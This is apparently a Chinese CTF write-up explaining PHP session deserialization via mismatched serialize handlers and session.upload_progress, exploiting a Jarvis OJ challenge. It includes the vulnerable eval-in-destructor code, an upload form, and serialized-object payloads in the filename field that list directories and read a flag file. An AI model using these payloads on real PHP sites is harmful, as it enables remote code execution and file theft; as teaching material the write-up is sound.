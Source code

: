```yaml
---
title: php的session反序列化
date: 2017-12-19 20:35:46
tags: [php,web,记录]
categories:
---
```


## 0x00.打字机

简单扯一下，大家都知道，几乎所有的编程语言都有(反)序列化这种机制，可以将一些对象，数组等通过`某种方式`变成可以便捷传输和存储(后面将提到)的形式，如字符串。当然php也不例外。

![43](https://myndtt.github.io\images\43.png)

同时在php有一个这样有意思的设置-->`php默认的SESSION会话机制 存储在文件系统的会话数据的内容是已经序列化后的内容,程序执行session_start()后PHP会自动读取文件并unserialize反序列化成数组赋值给超全局变量$_SESSION` (这句话是没错的)。

![44](https://myndtt.github.io\images\44.png)

​       ` (session_register这个函数功能即是可以在全部变量中session定义一个新的变量)`

<!-- more -->

## 0x01.晨曦的光

上面提到过是要存储这些序列化后的字符串的，实际情况中php有好几种存储方式，在php.ini中有一项名为`session.serialize-handler`的参数可以用来定义序列化/解序列化的处理器名字,用不同的处理器，其存储方式也就各不相同。

![46](https://myndtt.github.io\images\46.png)

​                      (自己php.ini中的session.serialize-handler情况)

![45](https://myndtt.github.io\images\45.png)

按php文档来看有三类：

```php
php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值

php:存储方式是，键名+竖线+经过serialize()函数序列处理的值

php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值
```

这里我们得到两个信息：1.三种方式存储方式完全不一样，2.默认为php方式存储，可以在php.ini中修改。

## 0x02.黑色的墨

举个例子。链接：http://web.jarvisoj.com:32784/

代码：

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

简单看一下代码：

```php
1.ini_set('session.serialize_handler', 'php');   设定上述存储方式为php

2.__construct()   php中的魔法函数   实例化对象时被调用

3.__destruct()     php中的魔法函数  当删除一个对象或对象操作终止时被调用

注：常见反序列化中魔法函数中还有

__sleep()   serialize之前被调用

__wakeup()   unserialize时被调用

```

由此可见，我们只要简单_GET一个'phpinfo' 就会执行`$m = new OowoO();`同时就会调用`__construct()`函数得到phpinfo()页面，先看看phpinfo页面能提供什么信息，有如下四点:

![47](https://myndtt.github.io\images\47.png)

```
一.php页面通过ini_set('session.serialize_handler', 'php')对存储方式进行了修改。

二.php版本为5.6.21

三.网站路径为 /opt/lampp/htdocs

四.session.upload_progress.enabled 为on(关键)
```

当然我们实际要执行`__destruct()`函数才能解决问题,，不用担心，对象操作一定会终止，也即这个函数一定会运行，接下就是如何利用了。

## 0x03.安静的伸张

方式：

我们可以`想办法`在session全局变量中加入一个变量，此变量经过`php_serialize`方式存储，随后该php页面通过`ini_set('session.serialize_handler', 'php')`更改存储(反序列化回来)方式，接着执行`session_start();`对session变量内容全部反序列化回来达到序列化利用。

而这个`想办法`就要利用第四点信息-->`session.upload_progress.enabled 为on`，看看官方解释：

![48](https://myndtt.github.io\images\48.png)

官方的例子：

![49](https://myndtt.github.io\images\49.png)



照葫芦画瓢，建立xx.php：

```php+HTML
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

上传文件，抓包，修改文件名，修改成我们想要的样子：

![50](https://myndtt.github.io\images\50.png)

为：`O:5:"OowoO":1:{s:4:"mdzz";s:38:"print_r(scandir("/opt/lampp/htdocs"));";}`但是别忘了存储方式的更改。所以最后文件名字修改为：

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:38:\"print_r(scandir(\"/opt/lampp/htdocs\"));\";}(加竖杠符合存储要求，叫反斜杠进行转义)
```

![51](https://myndtt.github.io\images\51.png)

再次修改为

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}
```

![52](https://myndtt.github.io\images\52.png)



当然你还可以获取到，额，等等.....

![53](https://myndtt.github.io\images\53.png)

简单概述过程，即为：使用`session.upload_progress`在全局session多一个变量如$_session['test'],赋值为`|123`，则通过php_serialize存储为a:1:{s:4:"test";s:4:"|123"}

a:1为默认的,s:4:"test"为key，s:4:"|123"为value，而到了index.php,更改了存储方式,以`|`作为key，value分界线，执行session_start();则123进行了反序列化,而123可控，则可被利用。

## 0x04.小结

php内置seesion存储机制需要好好编写使用，别用错了。如果在PHP在反序列化存储的$_SESSION数据时使用的引擎和序列化使用的引擎不一样，会导致数据无法正确第反序列化。通过精心构造的数据包，就可以绕过程序的验证或者是执行一些系统的方法。

`session.upload_progress`很IMBA,http://www.laruence.com/2011/10/10/2217.html

参考：http://www.jb51.net/article/107101.htm(很详细！！！)